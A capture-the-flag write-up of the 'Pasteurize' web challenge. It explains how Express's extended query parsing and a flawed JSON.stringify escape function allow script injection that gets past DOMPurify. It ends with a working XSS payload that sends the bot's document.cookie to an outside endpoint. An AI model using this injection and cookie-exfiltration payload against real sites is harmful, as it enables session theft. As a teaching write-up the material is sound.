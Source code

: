 ## Pasteurize
This was the introductory web challenge for the CTF.  

The webapp allows its users to create pastes and share them with "*TJMike*".  
This suggests that we have to exploit a client-side vulnerability and then use the share feature to send the payload to the bot.  

A comment in the HTML code of the page revealed the presence of an endpoint showing the sources of the NodeJS application at */source*.  

### DOMPurify and the custom escape function
Upon inspection of the code I saw that the user input was sanitized using [DOMPurify](https://github.com/cure53/DOMPurify) on the browser and through some strange function in Node.  
        const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
The function looked sketchy:
- It makes a JSON string
- Then it slices the first and last character
- Finally it HTML-encodes the **<** and **>** characters through a regex **globally**

When given a normal string as input, the slice function will just remove the quotation marks added by *JSON.stringify*.  

### Bypass using JSON Nested Objects
While reading more of the source I noticed this piece of code  
        app.use(bodyParser.urlencoded({
            extended: true
        }));

It's important because when **extended** is set to **true** *Express* will use [qs](https://www.npmjs.com/package/qs) instead of [query-string](https://www.npmjs.com/package/query-string) to parse the parameters, allowing us to use **JSON Nested Objects**.  

This means that if an object (or an array) was to pass through *JSON.stringify* it would be wrapped in parenthesis, defying the **slice** "protection" and allowing us to inject quotation marks in the Javascript ran on the page!  

As an example, `["abc","bcd"]` would become `"abc","bcd"`.  
This means that when the page is rendered the *quotation marks* will close those used to save the user input in a *const*.  
Now we can execute whatever code we want before **DOMPurify**'s *sanitize* function is called!  

![Example using alert(1)]()  

Now we just share the paste with *TJMike* to get their cookie and send it to an endpoint controlled by us and there's the flag!  

![Flag]()  

The payload I used in the *POST* request during the competition is the following:  
`content=;eval(window.location.href='https://myendpoint.com?flag='.concat(document.cookie));//&content`  

It basically creates an array and then comments the broken Javascript following the injection.  


